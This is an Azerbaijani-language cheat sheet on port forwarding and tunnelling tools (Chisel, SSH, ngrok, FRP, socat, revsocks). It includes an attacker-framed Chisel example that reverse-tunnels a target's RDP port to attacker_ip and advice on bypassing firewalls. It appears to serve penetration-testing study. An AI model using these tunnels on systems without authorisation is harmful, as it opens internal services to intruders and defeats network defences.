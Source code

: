 # 🔥 Port Forwarding və Tunelləşdirmə Metodları

Bu sənəddə **Chisel** və digər port forwarding/tunelləşdirmə metodları haqqında ətraflı məlumat və istifadə nümunələri verilmişdir.

---

## 📌 1. Chisel

**Chisel** açıq mənbəli port forwarding və tunelləşdirmə alətidir. Bu, firewall və NAT məhdudiyyətlərini aşmaq üçün istifadə olunur.

### 🛠 İstifadə nümunəsi:

**Hücumçu (Attacker) Chisel serverini işə salır:**
```bash
chisel server -p 8080 --reverse
```

**Hədəf sistem (Target) Chisel client ilə qoşulur:**
```bash
chisel client attacker_ip:8080 R:9001:127.0.0.1:3389
```
📌 Bu əmrlə **9001 portu üzərindən RDP trafiki yönləndirilir**.

---

## 🚀 2. SSH Tunneling (SSH Port Forwarding)

SSH tunneling, uzaq bir server üzərindən trafik yönləndirmək üçün təhlükəsiz üsuldur.

### 🛠 İstifadə nümunələri:

**Local Port Forwarding:**
```bash
ssh -L 9001:127.0.0.1:3389 user@remote_server
```
📌 **9001 portu vasitəsilə RDP (3389) trafiki yönləndirilir.**

**Remote Port Forwarding:**
```bash
ssh -R 9001:127.0.0.1:22 user@remote_server
```
📌 **Remote server 9001 portundan lokal sistemə SSH edə bilər.**

**SOCKS Proxy (Dynamic Port Forwarding):**
```bash
ssh -D 1080 -N -f user@remote_server
```
📌 **SOCKS5 proxy yaratmaq üçün istifadə edilir.**

---

## 🌍 3. Ngrok

**Ngrok**, lokal hostu internetə açmaq üçün istifadə edilən məşhur xidmətdir.

### 🛠 İstifadə nümunələri:

**HTTP trafik yönləndirmə:**
```bash
ngrok http 80
```
📌 **Lokal hostun 80-ci portu internetə açılır.**

**TCP tunelləşdirmə:**
```bash
ngrok tcp 3389
```
📌 **3389 (RDP) portu üçün tunel yaradılır.**

---

## 🔄 4. FRP (Fast Reverse Proxy)

**FRP**, **Chisel**-ə alternativ olaraq firewall bypass üçün istifadə olunur.

### 🛠 İstifadə nümunəsi:

```bash
frpc -c frpc.ini
```
📌 **frpc.ini faylında istənilən portlar və tunellər təyin edilir.**

---

## 🔧 5. Socat

**Socat**, iki nöqtə arasında şəbəkə bağlantısı yaratmaq üçün istifadə edilir.

### 🛠 İstifadə nümunəsi:

**Lokal portu uzaq hosta yönləndirmək:**
```bash
socat TCP-LISTEN:9001,fork TCP:192.168.1.100:3389
```
📌 **9001 portu gələn trafiki 192.168.1.100 sisteminin 3389 portuna yönləndirir.**

---

## 🎭 6. Revsocks (Reverse SOCKS Proxy)

**Revsocks**, SOCKS5 tunelləşdirmə üçün istifadə olunur.

### 🛠 İstifadə nümunəsi:

```bash
revsocks -s -p 1080
```
📌 **SOCKS5 proxy server yaradılır.**

---

## 📊 Hansı metod daha yaxşıdır?

| Alət/Metod        | Şəbəkə Tipi | Proxy | Trafik Şifrələmə | Əsas Üstünlüklər |
|-------------------|------------|--------|----------------|-----------------|
| **Chisel**       | TCP/UDP    | Bəli   | Bəli           | Sadə və sürətli |
| **SSH Tunneling** | TCP        | Bəli   | Bəli           | Ən etibarlı üsullardan biridir |
| **Ngrok**        | TCP/HTTP   | Xeyr   | Bəli           | Asan istifadəyə malikdir |
| **FRP**          | TCP/UDP    | Bəli   | Bəli           | Geniş konfiqurasiya imkanları |
| **Socat**        | TCP/UDP    | Xeyr   | Xeyr           | Minimal alət, firewall bypass üçün ideal |
| **Revsocks**     | TCP        | Bəli   | Bəli           | SOCKS5 proxy qurmaq üçün |

🔹 **Əgər təhlükəsiz tunel açmaq istəyirsənsə:** SSH Tunneling istifadə et.  
🔹 **Əgər dinamik tunel və ya internetdən giriş istəyirsənsə:** Chisel və ya FRP seç.  
🔹 **Əgər sadə və tez işləyən bir şey istəyirsənsə:** Ngrok yaxşı seçimdir.  
🔹 **Əgər firewall bypass etmək istəyirsənsə:** Socat və ya Revsocks istifadə et.  
